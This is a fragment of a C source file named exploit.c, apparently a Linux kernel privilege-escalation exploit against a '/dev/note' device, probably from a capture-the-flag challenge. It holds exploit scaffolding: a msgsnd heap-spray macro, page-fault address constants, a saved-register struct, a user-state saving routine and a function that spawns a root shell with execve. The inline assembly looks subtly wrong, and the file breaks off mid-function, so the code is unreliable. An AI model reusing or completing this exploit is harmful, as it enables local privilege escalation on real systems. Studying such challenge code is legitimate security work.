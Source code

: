 ```exploit.c
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/socket.h>
#include <sys/uio.h>


// commands
#define DEV_PATH "/dev/note"   // the path the device is placed

// constants
#define PAGE 0x1000
#define FAULT_ADDR 0xdead0000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
// (END constants)


// utils
#define WAIT getc(stdin);
#define ulong unsigned long
#define uint unsigned int
#define scu static const ulong
#define NULL (void*)0
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
#define KMALLOC(qid, msgbuf, N) assert(sizeof(msgbuf.mtext) > 0x30); \
                        for(int ix=0; ix!=N; ++ix){\
                          if(msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) errExit("KMALLOC");}
ulong user_cs,user_ss,user_sp,user_rflags;
struct pt_regs {
	ulong r15; ulong r14; ulong r13; ulong r12; ulong bp;
	ulong bx;  ulong r11; ulong r10; ulong r9; ulong r8;
	ulong ax; ulong cx; ulong dx; ulong si; ulong di;
	ulong orig_ax; ulong ip; ulong cs; ulong flags;
  ulong sp; ulong ss;
};
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  char *argv[] = {"/bin/sh",NULL};
  char *envp[] = {NULL};
  execve("/bin/sh",argv,envp);
}
// should  compile with  -masm=intel
static void save_state(void) {
  asm(
      "movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) :: "memory"
   );
```